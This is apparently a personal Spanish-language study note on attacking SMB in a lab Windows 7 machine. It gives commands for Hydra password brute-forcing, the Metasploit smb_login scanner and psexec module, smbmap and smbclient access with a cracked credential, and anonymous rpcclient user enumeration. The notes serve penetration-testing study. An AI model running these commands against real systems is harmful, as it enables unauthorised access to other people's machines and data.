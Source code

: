
Es un protocolo de red que opera en la capa de aplicación y se utiliza para compartir archivos, impresoras y otros recursos en una red. El SMB facilita la comunicación entre sistemas diferentes, permitiendo a los usuarios y aplicaciones acceder y manipular archivos y recursos en una red.

---------------------
# EXPLOTACIÓN BÁSICA
Vamos a utilizar la máquina windows 7 que ya tiene habilitado el login por smb:
![[Pasted image 20231105161016.png]]
Vemos que desde Kali podemos iniciar sesión:
![[Pasted image 20231105161032.png]]
Por tanto, podemos intentar iniciar sesión por smb usando hydra, que lo haríamos de la siguiente forma:
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://192.168.0.28
```
![[Pasted image 20231105161117.png]]
Aunque también podemos hacer otro ataque de fuerza bruta con el módulo de use auxiliary/scanner/smb/smb_login:
![[Pasted image 20231105162621.png]]
Realizamos las configuraciones añadiendo el diccionario (rockyou o unix_passwords, RHOSTS y lanzamos el ataque):
![[Pasted image 20231105163433.png]]
Y nos encuentra la contraseña:
![[Pasted image 20231105163511.png]]
Una vez hecho esto, es posible que podamos entrar dentro de la máquina por psexec usando el siguiente módulo:
```bash
use exploit/windows/smb/psexec
```
Donde le cargamos los datos para iniciar sesión obtenidos anteriormente:
![[Pasted image 20231105163717.png]]
Pero vemos que en este caso no funcionó:
![[Pasted image 20231105163733.png]]
Pero sí que podemos entrar por smb y enumerar usando herramientas como smbmap:
```bash
smbmap -H 192.168.0.28 -u mario -p 123123 -r Users
```
![[Pasted image 20231105163828.png]]
Y una vez hayamos enumerado el recurso compartido ya podremos acceder a él usando smbclient:
```bash
smbclient -U 'mario' //192.168.0.28/Users
```
![[Pasted image 20231105164156.png]]
### ENUMERACIÓN DE USUARIOS SMB CON RPCCLIENT
Hay una herramienta llamada rpcclient que nos permite enumerar usuarios existentes dentro de la máquina víctima si vemos que tiene abierto el puerto 445:
```bash
rpcclient -U "" -N 192.168.0.54
querydispinfo and enumdomusers
```
![[Pasted image 20231229113412.png]]
